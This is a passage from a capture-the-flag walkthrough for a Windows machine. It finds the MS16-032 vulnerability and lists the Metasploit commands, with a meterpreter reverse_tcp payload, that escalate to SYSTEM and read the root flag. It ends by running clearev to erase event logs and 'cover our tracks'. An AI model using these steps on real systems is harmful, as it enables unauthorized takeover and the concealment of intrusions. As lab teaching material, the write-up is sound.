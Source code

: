 Let us ask the Oracle for guidance!

![Asking the Oracle for guidance](https://i.imgur.com/rSLt5R7.png "Asking the Oracle for guidance")

The first hit gives us a nice MS vulnerability number, `MS16-032` 
The "16" means it is from 2016, meaning it takes advantage of a relatively new vulnerability, that's a good sign.
Let's search for this in metasploit and see if we have any modules.

![msfconsole ms16-032 search](https://i.imgur.com/MkSyF8y.png "msfconsole ms16-032 search")

Jackpot!

## 7. Trying Out the Privesc Module and the System Flag

Let's load it up and give it a whirl.

* `use exploit/windows/local/ms16_032_secondary_logon_handle_privesc`
* `show options` to see what parameters we need to set


![ms16-032 default parameters](https://i.imgur.com/JBTs6Xp.png "ms16-032 default parameters")


See the `Targets` Section? We need to specify our architecture again.
Make sure our payload has the right architecture too. Then, set the other parameters.

* `show targets`
* `set TARGET 1` to specify x64
* `set SESSION 2` __Note that this command was run before screenshot below was taken, it is REQUIRED__
* `set PAYLOAD windows/x64/meterpreter/reverse_tcp`
* `set LHOST 10.10.xx.xx`
* `set LPORT 51003` 
* `run`

![Session 4 started!](https://i.imgur.com/TJ6TjKE.png "Session 4 Started!")

It worked! We should first see who/where we are, and then see if we can capture the flag.

* `getuid` - should output NT AUTHORITY\SYSTEM. This is Windows-Speak for "All-Powerful Admin Root Master"
* `pwd` - see where we are and how we can navigate to the admin's desktop.
* `cd /Users/`
* `ls` - from here we can see all the User directories, including Administrator.
* `cd Administrator/Desktop` - we know this is where our flag can be found.
* `ls` 
* `cat root.txt` - system flag captured!

![System flag captured!](https://i.imgur.com/PDbe4y9.png "System flag captured!")

### 8. Cleanup

Since this is a CTF, cleanup isn't mandatory. However, we want to develop good habits and operational security practice.
Meterpreter has a `clearev` command that can be used to cover our tracks - let's run it and be out of here.
